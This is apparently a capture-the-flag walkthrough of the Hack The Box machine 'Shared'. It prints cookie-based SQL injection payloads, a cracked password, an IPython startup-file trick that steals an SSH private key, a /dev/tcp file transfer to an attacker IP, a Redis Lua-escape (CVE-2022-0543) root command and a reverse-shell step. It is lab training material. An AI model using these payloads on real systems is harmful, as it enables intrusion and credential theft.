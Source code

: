 # Shared
## User flag

```shell
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```

The page appers to be a shop and it's fatal flaw can easily be spotted in the checkout subdomain wehn you try and purchase something. Looking at the cookies there is a custom cart cookie that is url encoded. Howvere decoding it has no effect and it may be vuelnrable to SQL injection so I tried to fuzz the cookie

```shell
ffuf -w ~/wordlist/SQL.txt -u http://checkout.shared.htb -b "custom_cart={"FUZZ":"1"}" -fs 3229

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://checkout.shared.htb
 :: Wordlist         : FUZZ: /home/dasor/wordlist/SQL.txt
 :: Header           : Cookie: custom_cart={FUZZ:1}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 3229
________________________________________________

"' or 1 --'"            [Status: 200, Size: 3593, Words: 1827, Lines: 70]
```

Although the -b option from ffuf didn't work as I expected since I wanted it to use the \"\" it still gave me an interesting hint. This result probably means the cookie is vulenrable to comment injection and eventually after getting some data with this cookies I found a hashed md5 password


```shell
{"cn' union select 1,database(),3 #":"1"}
{"cn' union select 1,TABLE_NAME,3 from INFORMATION_SCHEMA.TABLES where table_schema='checkout'#":"1"}
{"cn' union select 1,COLUMN_NAME,3 from INFORMATION_SCHEMA.COLUMNS where table_name='user'#":"1"}
{"cn' union select 1,username,3 from checkout.user #":"1"}
{"cn' union select 1,password,3 from checkout.user #":"1"}
```

Once the hash was craked it was time to get connected by ssh

```shell
hashcat --show -m 0 pass ~/wordlist/rockyou.txt
fc895d4eddc2fc12f995e18c865cf273:Soleil101
```

Once in pspy found some interesting stuff executing by the user dan\_smith regularly

```shell
james_mason@shared:/tmp$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
2022/08/14 10:31:02 CMD: UID=1001 PID=120589 | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython

```
iphyton is beeing executed regularly so I searched for a exploit and found [this](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x)


```shell
mkdir -m 777 profile_default; cd profile_default; mkdir -m 777 startup ; cd startup ; echo "import os; os.system('cat ~/.ssh/id_rsa > /tmp/key')" > foo.py
```

By using this payload I got the ssh private key and logged as dan\_smith getting the user flag. Afetr some time of not getting anything with linpeas and pspy I looked at the groups of the user and searched for file owned by that group

## Root flag

```shell
dan_smith@shared:~$ groups
dan_smith developer sysadmin
dan_smith@shared:~$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
```

The binary logged into redis so I copied it to my system to see the credentials

```shell
dan_smith@shared:~$ cat /usr/local/bin/redis_connector_dev >& /dev/tcp/10.10.14.60/7777 0>&1
...
[dasor@archlinux ~/htb/shared]$ nc -lvp 7777 > binary
Connection from 10.10.11.172:34794
[dasor@archlinux ~/htb/shared]$ chmod a+x binary
[dasor@archlinux ~/htb/shared]$ ./binary
[+] Logging to redis instance using password...

INFO command result:
 i/o timeout

... (other console)

[dasor@archlinux ~]$ nc -lvp 6379
Connection from 127.0.0.1:53292
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

Once in I knew this instace was probably vulnerable to CVE-2022-0543 (lua code injection) so I tried

```shell
dan_smith@shared:~$ redis-cli --pass F2WHqJUz2WEz=Gqq
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"
```

Now I just had to use that to escalate privileges yet chmod u+s /bin/bash wasn't working as well as the reverse shell until I thought of a smarter method a.k.a writing the reverse shell to a file and then piping bash

```
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /dev/shm/rv | bash ", "r"); local res = f:read("*a"); f:close(); return res' 0
...
nc -lvp 7777
```

However the reverse shell doesn't last forever but is more than enough to get the flag.
